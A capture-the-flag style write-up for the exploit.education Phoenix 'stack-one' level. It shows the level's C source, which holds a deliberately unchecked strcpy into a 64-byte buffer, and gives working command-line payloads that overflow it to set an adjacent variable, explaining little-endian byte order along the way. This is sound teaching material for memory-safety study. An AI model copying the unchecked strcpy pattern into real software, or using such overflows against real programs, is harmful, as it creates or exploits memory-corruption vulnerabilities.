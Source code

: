 ## Stack One
This level looks at the concept of modifying variables to specific values in the program, and how the variables are laid out in memory.

## Source Code
```c
/*
 * phoenix/stack-one, by https://exploit.education
 *
 * The aim is to change the contents of the changeme variable to 0x496c5962
 *
 * Did you hear about the kid napping at the local school?
 * It's okay, they woke up.
 *
 */

#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int changeme;
  } locals;

  printf("%s\n", BANNER);

  if (argc < 2) {
    errx(1, "specify an argument, to be copied into the \"buffer\"");
  }

  locals.changeme = 0;
  strcpy(locals.buffer, argv[1]);

  if (locals.changeme == 0x496c5962) {
    puts("Well done, you have successfully set changeme to the correct value");
  } else {
    printf("Getting closer! changeme is currently 0x%08x, we want 0x496c5962\n",
        locals.changeme);
  }

  exit(0);
}
```

## Challenge
The aim is to change the contents of the changeme variable to 0x496c5962

## Solution
Just like in `stack-zero`:
* We need to change the value of `locals.changeme`
* We have a vulnerable function (`strcpy()`) acting on `locals.buffer`

This time we want a specific value in `locals.changeme` = `0x496c5962` and our input is passed through the program's arguments.

### The Plan
`strcpy()` does not receive a length of chars to write, instead it copies from a source buffer to a dest buffer until it encounters a terminating null byte (it includes the byte).

It allows us to overflow from `locals.buffer` to `locals.changeme`.

### Breaking it
```console
user@phoenix-amd64:~$ /opt/phoenix/amd64/stack-one $(python -c "print 'a'*64 + '\x49\x6c\x59\x62'")
Welcome to phoenix/stack-one, brought to you by https://exploit.education
Getting closer! changeme is currently 0x62596c49, we want 0x496c5962
```
Byte order is important, the value interpreted for `changeme` hints this system is `little-endian` - meaning the LSB (least-significant-byte) is first in memory.

![](/images/stack-one/0.png)
> Notice endianness only affects the layout of multi-byte representations like integers and some string encodings (like `UTF-16`).

We can verify this using the program `lscpu`, it displays CPU architecture information, among it is byte order.
```console
user@phoenix-amd64:~$ lscpu | grep "Byte Order"
Byte Order:            Little Endian
```

That's why our buffer representing a `32bit` integer was interpreted as `0x62596c49`.

Let's write it to memory in `little-endian` representation.
```console
user@phoenix-amd64:~$ /opt/phoenix/amd64/stack-one $(python -c "print 'a'*64 + '\x62\x59\x6c\x49'")
Welcome to phoenix/stack-one, brought to you by https://exploit.education
Well done, you have successfully set changeme to the correct value
```
🥳
